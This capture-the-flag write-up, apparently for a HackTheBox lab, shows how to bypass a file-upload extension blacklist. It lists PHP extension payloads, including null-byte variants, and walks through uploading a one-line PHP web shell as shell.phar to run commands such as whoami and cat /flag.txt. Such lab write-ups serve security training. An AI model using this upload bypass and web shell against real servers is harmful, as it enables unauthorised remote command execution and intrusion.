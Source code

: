 ## Challenge

Try to find an extension that is not blacklisted and can execute PHP code on the web server, and use it to read "/flag.txt" 

## Solution

Send the request to upload an image to the Burp Intruder.

I got the list of possible php extension from `payloadAllTheThings`:

```sh
.jpeg.php
.jpg.php
.png.php
.php
.php3
.php4
.php5
.php7
.php8
.pht
.phar
.phpt
.pgif
.phtml
.phtm
.php%00.gif
.php\x00.gif
.php%00.png
.php\x00.png
.php%00.jpg
.php\x00.jpg
```

Select the payload type as Simple list, and then on the payload configuration paste these extensions.

From the `filename` select the extension `.jpg` as a payload position, and start the attack.

Observe the length of the response, and see that some of the extensions are not blacklisted, as it shows it is successfully uploaded.

I tried a number of them like `.php3`, `php4`, `phtm`, `pht`, but they were not working - not executing the code, just showing it as plain text.

However, there was one extension `.phar` which allowed code extension.

For example `.phar`, is among them. 

I tried this by sending the request to the Burp Repeater and changing the filename to `shell.phar`, and putting the shell `<?php system($_REQUEST['cmd']); ?>` as the body.

We see that the shell has been uploaded and we view the source of the webpage, and we see that files are being uploaded at the `/profile_images/` directory.

Let's access the `shell.phar` and add the `cmd` with the value of the command that we want to execute.

With `http://94.237.53.128:51926/profile_images/shell.phar?cmd=whoami` I got the result as `www-data`.

Now let's read the flag at `/flag.txt` by going to `http://94.237.53.128:51926/profile_images/shell.phar?cmd=cat%20/flag.txt` and the result is `HTB{1_c4n_n3v3r_b3_bl4ckl1573d}`



